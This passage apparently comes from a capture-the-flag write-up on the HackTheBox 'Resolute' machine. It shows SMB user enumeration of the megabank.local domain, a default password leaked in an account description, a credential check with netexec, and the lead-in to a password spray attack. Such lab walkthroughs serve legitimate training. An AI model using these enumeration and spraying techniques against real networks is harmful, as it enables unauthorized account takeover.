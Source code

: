 ```bash
SMB         10.10.10.169    445    RESOLUTE         megabank.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.169    445    RESOLUTE         megabank.local\DefaultAccount                 A user account managed by the system.
SMB         10.10.10.169    445    RESOLUTE         megabank.local\ryan
SMB         10.10.10.169    445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
SMB         10.10.10.169    445    RESOLUTE         megabank.local\sunita
SMB         10.10.10.169    445    RESOLUTE         megabank.local\abigail
SMB         10.10.10.169    445    RESOLUTE         megabank.local\marcus
SMB         10.10.10.169    445    RESOLUTE         megabank.local\sally
SMB         10.10.10.169    445    RESOLUTE         megabank.local\fred
SMB         10.10.10.169    445    RESOLUTE         megabank.local\angela
SMB         10.10.10.169    445    RESOLUTE         megabank.local\felicia
SMB         10.10.10.169    445    RESOLUTE         megabank.local\gustavo
SMB         10.10.10.169    445    RESOLUTE         megabank.local\ulf
SMB         10.10.10.169    445    RESOLUTE         megabank.local\stevie
SMB         10.10.10.169    445    RESOLUTE         megabank.local\claire
SMB         10.10.10.169    445    RESOLUTE         megabank.local\paulo
SMB         10.10.10.169    445    RESOLUTE         megabank.local\steve
SMB         10.10.10.169    445    RESOLUTE         megabank.local\annette
SMB         10.10.10.169    445    RESOLUTE         megabank.local\annika
SMB         10.10.10.169    445    RESOLUTE         megabank.local\per
SMB         10.10.10.169    445    RESOLUTE         megabank.local\claude
SMB         10.10.10.169    445    RESOLUTE         megabank.local\melanie
SMB         10.10.10.169    445    RESOLUTE         megabank.local\zach
SMB         10.10.10.169    445    RESOLUTE         megabank.local\simon
SMB         10.10.10.169    445    RESOLUTE         megabank.local\naoki

# create a user list
$ cat nxc_users.lst | cut -d"\\" -f2 | cut -d" " -f1 > domain_users.txt
```
{% endcode %}

The credentials for the account `marko` are revealed! Let's confirm that they are valid.

{% code overflow="wrap" %}
```bash
$ nxc smb 10.10.10.169 -u marko -p marko_pass
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:******** STATUS_LOGON_FAILURE
```
{% endcode %}

### Password Spraying

It seems like `marko` is security-aware and changed his account's weak password. This password seems like something that is set on account creation and is meant to be changed by the users. We can check if everyone is as security-aware as `marko` via a **password spray attack**.&#x20;

